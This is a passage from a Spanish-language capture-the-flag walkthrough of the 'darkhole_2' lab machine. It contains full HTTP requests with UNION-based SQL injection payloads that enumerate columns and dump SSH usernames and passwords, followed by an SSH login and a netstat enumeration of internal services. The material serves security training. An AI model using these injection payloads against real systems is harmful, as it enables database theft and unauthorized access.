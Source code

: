 Enumerando los campos de la tabla ssh
```python
GET /dashboard.php?id=2'union+select+1,2,group_concat(column_name),4,5,6+from+information_schema.columns+where+table_schema%3d'darkhole_2'+and+table_name%3d'ssh'--+- HTTP/1.1
Host: 192.168.200.140
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=l66cr5745rherg4u1aafmqlaeh
Connection: close
```
Obteniendo las contraseñas y password de la tabla ssh
```python
GET /dashboard.php?id=2'union+select+1,2,group_concat(user,0x3a,pass),4,5,6+from+darkhole_2.ssh--+- HTTP/1.1
Host: 192.168.200.140
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=l66cr5745rherg4u1aafmqlaeh
Connection: close
```
Resultado obtenido 
> ![alt text](https://i.postimg.cc/zDk1yK4h/imagen.png)

## Accediendo por ssh
con las credenciales obtenidas el siguiente proceso es de ingresar por ssh. `ssh jehad@192.168.200.140`, verificamos el acceso con el comando `whoami`.

```ruby
jehad@darkhole:~$ whoami
jehad
```
Una vez a dentro se puede enumerar servicios haciendo uso de netstat o ps, por lo que, en el siguiente cuadro identificaremos una servicio web, en el puerto 9999.

```ruby
jehad@darkhole:~$ netstat -putona
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name     Timer
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 127.0.0.1:9999          0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 192.168.200.140:22      192.168.200.139:46094   ESTABLISHED -                    keepalive (7032.81/0/0)
```
